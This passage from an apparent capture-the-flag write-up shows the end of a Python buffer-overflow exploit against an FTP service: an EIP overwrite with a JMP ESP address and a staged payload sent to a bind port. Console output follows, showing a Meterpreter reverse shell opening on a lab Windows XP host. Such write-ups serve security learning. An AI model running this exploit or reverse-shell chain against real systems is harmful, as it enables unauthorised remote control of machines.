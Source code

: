 ``` python
command += "Z" * (offsets['SC'] - len(command))
command += block2
command += "B" * (offsets['EIP'] - len(command))
command += struct.pack("<L", target['JMPESP'])
command += tucked
command += block1
command += "E" * (max_size - len(command))

# send the initial exploit
pwn(command, port)
# wait a sec for the port to be bound
time.sleep(1)
# Send the payload on the bind port
pwn(read_file(payload_file), port + 1, False)
```

Armed with this, we can set up a Meterpreter listener:

``` txt
msf exploit(handler) > exploit

[*] Started reverse handler on 10.1.10.40:8000 
[*] Starting the payload handler...
```

Launch our script at the application:
``` txt
$ ./sploit.py 0 10.1.10.34 21 ./revmet8000.bin
[*] Attacking 10.1.10.34:21 ...
[*] Sending 365 bytes to 10.1.10.34:21...
[*] Sending 314 bytes to 10.1.10.34:22...
```

Watch the magic happen:

![FTP pwnage](/uploads/2014/03/04-magic.png)

And enjoy a Meterpreter shell:

``` txt
[*] Sending stage (787456 bytes) to 10.1.10.34
[*] Meterpreter session 2 opened (10.1.10.40:8000 -> 10.1.10.34:3779) at 2014-03-01 01:20:04 +1000

meterpreter > getuid
Server username: OJ-75E3B8CC9475\bob
meterpreter > sysinfo
Computer        : OJ-75E3B8CC9475
OS              : Windows XP (Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Meterpreter     : x86/win32
```

## Last thoughts


  [OSCE]: http://buffered.io/posts/osce-and-me/
  [ExploitDB]: http://exploit-db.com/
  [Corelan]: https://www.corelan.be/
  [Fuzzy Security]: http://www.fuzzysecurity.com/
  [CTF]: https://en.wikipedia.org/wiki/Capture_the_flag
  [ShellStorm]: http://www.shell-storm.org/
  [Ammar]: http://clog.ammar.web.id/2013/06/idsecconf-2013-ctff-offline-challenge.html
  [idsecconf]: http://2013.idsecconf.org/
  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Immunity Debugger]: https://www.immunityinc.com/products-immdbg.shtml
  [Mona.py]: http://redmine.corelan.be/projects/mona
  [Corelanc0d3r]: https://twitter.com/corelanc0d3r
  [muts]: https://twitter.com/kalilinux